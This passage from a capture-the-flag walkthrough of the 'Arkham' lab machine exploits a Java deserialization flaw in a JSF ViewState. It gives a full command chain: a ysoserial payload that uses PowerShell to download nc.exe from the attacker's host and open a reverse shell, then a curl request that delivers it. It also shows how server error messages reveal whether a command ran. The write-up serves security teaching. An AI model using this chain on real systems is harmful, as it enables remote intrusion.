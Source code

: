 ![ping](https://github.com/roughiz/Arkham-walktrough/blob/master/ping.png)

I used curl to post the viewstate payload manually.
The idea here is to find the way to uplaod nc.exe and execute it. we have to know if the box has powershell or python etc ..
When i tried many things i noticed that when the command is executed we have a 500 error with :
##### "cannot be cast to class [Ljava.lang.Object; (javax.management.BadAttributeValueExpException".

If command dosen't work or payload dosent work we have an 500 error : 
##### "javax.faces.application.ViewExpiredException: viewId:&#47;userSubscribe.faces - No saved view state could be found for the view identifier: &#47;userSubscribe.faces"

That was very important so i could guess if the contains per example (python, powershell ...) 

### Note : we can also add && ping to our command to be sur it was well executed

## Final exploit for user shell :

```
$ java -jar ysoserial-modified.jar CommonsCollections5 cmd "powershell -ExecutionPolicy Bypass -Command \"& Invoke-WebRequest 'http://10.10.14.7/nc.exe' -OutFile 'C:\Users\Public\nc.exe'  \" && C:\Users\Public\nc.exe 10.10.14.7 443 -e powershell" > payload

$ data=$(python viewstate.py -a encrypt    | sed -f /usr/lib/ddns/url_escape.sed )

$ curl -i -s -k  -X $'POST' -H $'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:66.0) Gecko/20100101 Firefox/66.0' -H $'Referer: http://10.10.10.130:8080/userSubscribe.faces' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Upgrade-Insecure-Requests: 1' -b $'JSESSIONID=JSESSIONID='  --data-binary $'j_id_jsp_1623871077_1%3Aemail=balol%40gmail.com&j_id_jsp_1623871077_1%3Asubmit=SIGN+UP&j_id_jsp_1623871077_1_SUBMIT=1&javax.faces.ViewState='$data $'http://10.10.10.130:8080/userSubscribe.faces'
```